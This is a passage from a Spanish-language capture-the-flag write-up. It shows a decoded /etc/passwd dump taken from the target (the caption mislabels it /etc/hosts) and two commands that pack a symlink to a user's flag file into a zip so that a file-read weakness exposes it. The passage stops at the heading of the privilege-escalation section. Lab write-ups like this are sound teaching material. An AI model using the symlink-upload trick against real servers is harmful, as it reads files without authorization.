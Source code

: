 ```R
❯ echo "cm9vdDp4OjA6MDp..." | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```
*Ahora podemos ver que nos devuelve todo el /etc/hosts*

```R
❯ ln -sf /home/rektsu/user.txt test.pdf
❯ zip --symlinks prueba.zip test.pdf
```
*Si ahora hacemos esto para poder extraer la user flag...*





# Escalada de privilegios
*Esta fase va a consistir en pasar de ser un usuario no privilegiado a ser el administrador del sistema aprovechandonos de fallos en la seguridad internos del servidor.*

